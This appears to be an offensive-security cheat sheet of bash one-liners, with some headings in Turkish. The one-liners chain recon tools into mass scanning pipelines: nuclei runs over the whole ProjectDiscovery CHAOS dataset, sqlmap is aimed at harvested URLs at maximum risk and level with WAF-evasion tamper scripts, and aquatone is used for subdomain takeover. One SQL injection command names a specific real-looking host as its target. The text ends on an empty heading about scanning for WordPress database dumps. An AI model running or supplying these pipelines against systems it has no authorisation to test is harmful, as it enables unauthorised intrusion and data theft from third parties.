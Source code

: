 


## ProjectDiscovery CHAOS project
```bash
wget "https://chaos-data.projectdiscovery.io/index.json" && cat index.json | grep "URL" | sed 's/"URL": "//;s/",//' | while read host do;do wget "$host";done && for i in `ls -1 | grep .zip$`; do unzip $i; done && rm *.zip && cat *.txt >> all.txt    && cat all.txt  | dnsx -silent -a -resp-only   | sort -u > all-dnsx.txt && cat all.txt all-dnsx.txt > all-sh.txt    && httpx -l all-sh.txt  -o all-httpx.txt  && nuclei -l all-httpx.txt  -o all-nuclei-scan.txt -stats  -si 300 
```



## SQLi OneLiner
```bash
subfinder -dL domains.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent  > urls ; sqlmap -m urls --batch --random-agent --level 1  --risk 1  | tee sqlmap.txt 
```









## Subdomain Takeover
Aquatone 3 command under 

1. aquatone-discover -d  nakia.com --disable-collectors dictionary
2. aquatone-scan -d nakia.com  (copy and paste on terminal)
3. aquatone-takeover -d nakia.com copy and paste 


```bash
aquatone-discover -d $domain --disable-collectors dictionary | aquatone-scan -d $domain | aquatone-takeover -d $domain
```


## 	Auto scanner
```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```

## Otomatik sqli scanner command

```bash
subfinder -d  ccs-test.ual.com -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --risk=3 --level=5 --random-agent --user-agent  -v 3 --threads=10 --tamper=space2morecomment,between --batch | tee -a sqli.txt
```



## Otomatik wordpress mysql.sql dosyası scanner command
